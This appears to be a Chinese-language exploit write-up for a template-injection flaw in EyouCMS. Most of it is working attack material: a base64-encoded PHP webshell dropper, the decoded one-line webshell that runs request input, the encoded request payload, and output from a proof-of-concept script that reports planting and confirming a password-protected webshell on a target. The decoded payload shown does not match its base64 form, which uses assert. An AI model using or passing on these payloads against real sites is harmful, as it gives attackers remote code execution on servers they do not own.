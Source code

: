 eval会被替换成intval，所以我们采用base64加密写入webshell的方式

php代码如下：


```php
file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg=="));
```

PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：


```php
<?php eval($_REQUEST[“w”]);?>
```

将php标签转换为json格式并加密：


```bash
print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}")));

eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=
```

pyload:


```bash
attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb
```

![](images/15890228097831.png)


htmlcode参数作为随机方式传递

**poc**


```bash
silly@PenetrationOs:~#: python eyoucms-ssti.py -u http://192.168.1.106:8085/ -o abc

[+] 正在请求目标地址:http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist
[*] 目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist存活
[+] 正在向目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist写入abc.php
[*] 疑似成功写入Webshell
[+] 正在探测Webshell(http://192.168.1.106:8085/abc.php)是否存活
[*] Webshell(http://192.168.1.106:8085/abc.php)已存活
[*] 密码：ceshi
[*]
```
